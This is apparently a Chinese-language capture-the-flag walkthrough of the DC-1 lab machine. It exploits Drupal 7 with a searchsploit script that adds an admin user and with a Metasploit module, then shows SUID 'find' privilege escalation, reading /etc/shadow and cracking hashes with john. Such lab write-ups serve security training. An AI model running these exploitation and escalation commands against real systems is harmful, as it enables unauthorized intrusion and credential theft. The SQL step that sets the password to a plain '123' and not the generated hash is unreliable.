# 前言

靶机：`DC-1`，IP地址为`192.168.10.12`

攻击：`kali`，IP地址为`192.168.10.2`

都采用`VMWare`，网卡为桥接模式

# 主机发现

使用`arp-scan -l`或者`netdiscover -r 192.168.10.1/24`



# 信息收集 

## 使用nmap扫描端口



## 网站信息探测

访问80默认界面



使用`whatweb`搜集指纹，版本为`dripal 7`



使用`gobuster、drisearch、dirb`等扫描工具进行目录爆破

```shell
dirsearch -u http://192.168.10.12 -x 403,404
```



扫描需要一些时间，这时候尝试访问网站中的一些常见目录，如`robots.txt`等

访问这个文件后，发现一堆目录



这些目录和扫描出的结果，访问之后，发现并无信息泄露

# 漏洞寻找

尝试使用`searchsploit`搜索历史版本漏洞，发现其中几个

```shell
searchsploit drupal 7
```

以这个进行测试



首先使用`locate`定位文件， 然后使用`cp`复制到当前目录，为了方便使用

然后使用`python2`执行该脚本即可，这里脚本就是向网站添加用户名和密码

```shell
python2 34992.py -t http://192.168.10.12 -u qwer -p 123
```



然后使用生成的用户名和密码登录，发现确实可以使用，并直接发现了`flag3`



这里也就看到版本为`7.24`版本，不过到这里我就发现不到利用点了，唉，最终还是要使用`msf`，我这里就是不想使用`msf`的

# 漏洞利用

使用`msf`搜索，发现一个可执行，并且包含众多版本，就是使用这个



```shell
use 1				#使用该脚本
options				#查看需要进行的配置
set rhost 192.168.10.12	#配置目标IP地址
run					#执行
```

执行后，会提示成功，不过这里需要自己输入`shell`命令进入靶机



使用`dpkg`命令查看靶机内安装`python`的版本

```shell
dpkg -l | grep python
```

然后使用对于版本，获取一个交互式界面

```shell
python2 -c 'import pty;pty.spawn("/bin/bash")'
```



# 寻找flag1

查看当前目录下的文件，发现`flag1.txt`，查看后，提示我们去找配置文件



# 寻找flag2

那么就可以百度一下`dripal`CMS的一些配置文件的默认名称，发现都与`settings.php`有关

直接搜索

```shell
find / -name "*settings.php" 2>/dev/null
```



翻译`flag2`的话，就是

'暴力破解和字典攻击并非获取访问权限的唯一途径（而且你肯定需要获得访问权限）。利用这些凭据，你能做些什么呢？'

# 数据库更新操作

获取的用户名和密码进行测试，用户名`dbuser`，密码`R0ck3t`



下面连接数据库后使用的命令

```shell
mysql -udbuser -pR0ck3t  #连接数据库

show databases;	#查看数据库
use drupaldb;	#指定数据库
show tables;	#查看指定数据库中的表
select * from users \G;	#查看指定表中的数据
```



发现有明显的加密，那么搜索一下，有没有关于这个加密算法的文件

当前文件搜索后，发现几个文件

```shell
find . -name "*pass*" 2>/dev/null
```



其中一个是`bash`脚本，说不定是利用脚本加密，查看一下

观察其逻辑，也是调用`password.inc`文件，然后进行的一种加密

查看`password.inc`文件，因为太多，所以搞了一个关键的，也就是加密采用`sha512`，但是后面的这个就是我没看到，可能是看的太久，眼睛花了，不过这里不重要了



直接使用脚本生成一个加密后的字符

```shell
php ./scripts/password-hash.sh 123
```



生成123的hash值`$S$D2zHNCokKD0hVFQKDOWoioPLA8iJUH3KjzJlvX068bKHQViCjjbV`

那么就可以使用数据库，进行更新密码的操作

```mysql
update users set pass=123 where uid=1;
```



# 寻找flag3

再次访问网站进行登录，使用用户名`admin`和密码`123`进行登录，发现登录成功，并成功发现`flag3`，当然，这在前面的时候就已经通过脚本添加一个管理员账户，并登录成功，看到了`flag3`





进行翻译，查看什么意思

"特殊权限（操作）将有助于找到密码文件（passwd）—— 但你需要使用 “-exec” 命令来弄清楚如何获取影子文件（shadow）中的内容。"

# 寻找flag4

根据其提示，来尝试使用`find`获取SUID权限的文件

```shell
find / -perm -4000 -print 2>/dev/null
```

发现有`find`，具体用法，如果不清楚，可以参考网站`gtfobins.github.io`



```shell
which find	#确定find命令的位置
/usr/bin/find . -exec /bin/bash -p \; -quit
```

执行后，可以清楚的看到提权成功



不过按照道理这就可以直接看到最终`flag`了，但是说是5个`flag`，所以我们这种直接获取`root`的`bash`，属于直接到最后了

所以。这里按照提示去获取`/etc/shadow`文件

```shell
find / -exec /bin/cat /etc/shadow \; -quit
```



可以获取到该文件中的内容，那么再获取`/etc/passwd`中的内容，把两个文件中的内容分别复制到`kali`中的两个文件中，然后使用`unshadow`进行整合，然后使用`john`进行爆破

```shell
unshadow user.txt pass.txt > userpass
john userpass --wordlist=/usr/share/wordlists/rockyou.txt
```



获取到`flag4`用户的密码为`orange`

# 寻找最终flag

使用`ssh`登录`flag4`，毕竟该服务都开启了，还是要使用一下



这里的`flag4`提示能否使用`find`执行其他命令，其实也就是进行`root`提权了

与上面的步骤就是一样的了，查看最终`flag`

```shell
/usr/bin/find . -exec /bin/sh -p \; -quit
```



# 总结

该靶场主要考察以下几点：

1. 对于网站的CMS能否识别观察到，或者确定其版本，然后使用`searchsploit`或者`msf`搜索到对应的历史漏洞，然后进行使用
2. 对于常见的CMS的一些配置文件要大概清楚，这里的就是`drupal`的默认配置文件`settings.php`
3. 对于数据库的操作命令，要会，这里就是涉及到改和查
4. 对于`drupal`这个CMS有其自己的一个密码存储时的加密算法，不过这里是`drupal 7`，网上已经有了其算法，并且在`cmd5`网站中，可以直接进行破解，只是需要一些`money`
5. 会搜索一些具有特权的文件，这里就是具有SUID权限文件的`find`，然后通过`find`可以执行一些只有`root`才能执行的命令


